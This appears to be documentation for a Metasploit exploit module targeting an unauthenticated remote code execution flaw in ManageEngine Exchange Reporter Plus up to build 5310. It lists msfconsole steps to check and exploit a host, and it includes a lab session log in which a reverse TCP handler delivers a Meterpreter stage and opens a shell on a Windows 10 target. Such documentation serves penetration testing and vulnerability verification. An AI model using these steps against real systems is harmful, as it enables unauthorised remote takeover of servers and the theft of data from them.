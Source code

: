 ## Description
This module exploits a remote code execution vulnerability that exists in Exchange Reporter Plus <= 5310, caused by execution of bcp.exe file inside ADSHACluster servlet.
Additional information can be viewed on https://security.szurek.pl/en/manage-engine-exchange-reporter-plus-unauthenticated-rce/

## Verification Steps
[Exchange Reporter Plus 5216](https://mega.nz/#!XG5CTC5I!IuG91CbrcdcpQj4teYRiBWNwy9pULRkV69U3DQ6nCyU)

## Verification Steps

 1. Install the application
 2. Start msfconsole
 3. Do: `use exploit/windows/http/manageengine_adshacluster_rce`
 4. Do: `set rhost <ip>`
 5. Do: `check`
```
[*] Version: 5216
[+] 192.168.88.125:8181 The target is vulnerable.
```
 6. Do: `set lport <port>`
 7. Do: `set lhost <ip>`
 8. Do: `exploit`
 9. You should get a shell.


## Scenarios

### Exchange Reporter Plus 5216 on Windows Target
```                                                                                                                                    
msf > use exploit/windows/http/manageengine_adshacluster_rce
msf exploit(windows/http/manageengine_adshacluster_rce) > set rhost 192.168.88.125
rhost => 192.168.88.125
msf exploit(windows/http/manageengine_adshacluster_rce) > check

[*] Version: 5216
[+] 192.168.88.125:8181 The target is vulnerable.
msf exploit(windows/http/manageengine_adshacluster_rce) > set lport 1111
lport => 1111
msf exploit(windows/http/manageengine_adshacluster_rce) > set lhost 192.168.88.120
lhost => 192.168.88.120
msf exploit(windows/http/manageengine_adshacluster_rce) > exploit

[*] Started reverse TCP handler on 192.168.88.120:1111
[*] Sending stage (179779 bytes) to 192.168.88.125
[*] Meterpreter session 2 opened (192.168.88.120:1111 -> 192.168.88.125:49955) at 2018-07-02 18:58:01 +0200

meterpreter > sysinfo
Computer        : WIN10
OS              : Windows 10 (Build 16299).
Architecture    : x64
System Language : pl_PL
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```
